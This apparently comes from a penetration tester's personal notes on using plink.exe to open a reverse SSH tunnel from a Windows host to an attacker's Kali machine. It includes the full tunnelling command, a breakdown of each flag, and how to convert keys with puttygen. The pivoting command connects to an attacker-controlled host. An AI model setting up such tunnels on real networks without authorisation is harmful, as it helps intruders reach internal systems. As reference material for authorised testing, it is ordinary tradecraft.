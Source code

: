 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

plink.exe

Windows PLink Tunnel

Plink allows an SSH-like client to allow Port Forwarding on a Windows system. Below is an example command:

~~~cmd
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
~~~

Command Breakdown:

cmd.exe /c echo y - This spawns a non-interactive shell and suppresses warnings
| - pipes in a new command after the non-interactive shell and into that same shell
-R - Creates the remote port on the attacker machine
8000:172.16.0.10:80 - AttackerMachineProxyPort:TargetIP:TargetPort
kali@172.16.0.20 - AttackerUser@AttackerIP
-i KEYFILE - -i Specifies to use a Private Key and the KEYFILE is the keyfile/private key **May need to be chmod 600 on the keyfile for it to function properly
-N - only sets up the connection (no backgrounding is needed as it is running in a backgrounded non-interactive shell)

***Keys generated with ssh-keygen will not work properly with plink as plink is a part of the putty set and will require a putty generated key.
***You will need to generate a key using ssh-keygen and then convert it with puttygen. Below is an example command:

~~~cmd
puttygen KEYFILE -o OUTPUT_KEY.ppk
~~~

You will still need to add the public key to the authorized_keys file for this, but the private key used on the other system will need to become the puttygen'd key.


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
